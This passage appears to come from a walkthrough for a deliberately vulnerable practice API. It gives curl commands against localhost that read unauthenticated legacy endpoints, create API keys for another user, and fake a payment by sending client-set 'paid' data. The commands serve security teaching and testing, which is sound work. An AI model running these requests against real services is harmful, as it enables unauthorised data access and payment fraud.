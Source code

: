 ### Attack: Access Legacy Endpoints
```bash
# Access legacy v0 endpoint (no authentication)
curl -sX GET "http://localhost:3000/api/v0/users/listAll" | jq .
```

### Attack: Access Legacy Orders
```bash
# Access orders via legacy endpoint
curl -sX GET "http://localhost:3000/api/v0/orders/user/1" | jq .
```

### Attack: Leak Supplier Data
```bash
# Get items with supplier information
curl -sX GET "http://localhost:3000/api/v0/items/bulk?include=supplier" | jq .
```

### Attack: Manage Others' API Keys
```bash
# List API keys for other users
curl -sX GET "http://localhost:3000/api/v1/keys/mine?userId=1" \
  -H "Authorization: Bearer $BOB_TOKEN" | jq .

# Create API key for another user
curl -sX POST "http://localhost:3000/api/v1/keys" \
  -H "Authorization: Bearer $BOB_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "label":"Hacked Key",
    "userId":1
  }' | jq .
```

**Expected Result**: Legacy endpoints and improper access controls work.

## API10: Unsafe Consumption of APIs

### Attack: Fake Payment Response
```bash
# Create an order
ORDER_ID=$(curl -sX POST "http://localhost:3000/api/v1/orders" \
  -H "Authorization: Bearer $ALICE_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "items":[{"itemId":1,"qty":1}],
    "shippingAddress":"123 Hack St"
  }' | jq -r .id)

# Fake payment with client-controlled data
curl -sX POST "http://localhost:3000/api/v1/checkout/pay" \
  -H "Authorization: Bearer $ALICE_TOKEN" \
  -H "Content-Type: application/json" \
  -d "{
    \"orderId\":$ORDER_ID,
    \"paid\":true,
    \"amount\":1.00,
    \"currency\":\"USD\"
  }" | jq .
```
